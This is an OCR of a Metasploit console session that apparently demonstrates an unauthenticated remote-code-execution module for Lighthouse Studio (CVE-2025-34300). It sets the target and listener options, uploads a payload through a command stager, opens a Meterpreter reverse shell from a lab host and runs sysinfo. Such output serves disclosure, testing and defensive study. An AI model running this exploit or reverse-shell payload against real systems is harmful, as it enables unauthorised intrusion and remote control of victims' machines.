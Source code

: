 ```
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set RHOSTS 192.168.19.129
RHOSTS => 192.168.19.129
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set STUDYNAME 123
STUDYNAME => 123
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set LHOST eth0
LHOST => 192.168.19.130
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set SRVPORT 9999
SRVPORT => 9999
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Extracting version...
[*] Extracted version: 9.16.12
[+] The target appears to be vulnerable.
[*] Uploading malicious payload...
[*] Command Stager progress -  44.31% done (362/817 bytes)
[*] Uploading malicious payload...
[*] Sending stage (3045380 bytes) to 192.168.19.129
[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 192.168.19.129:39790) at 2025-07-20 07:04:31 -0400
[*] Command Stager progress -  97.31% done (795/817 bytes)
[*] Uploading malicious payload...
[*] Command Stager progress - 100.00% done (817/817 bytes)

meterpreter > sysinfo
Computer     : 192.168.19.129
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```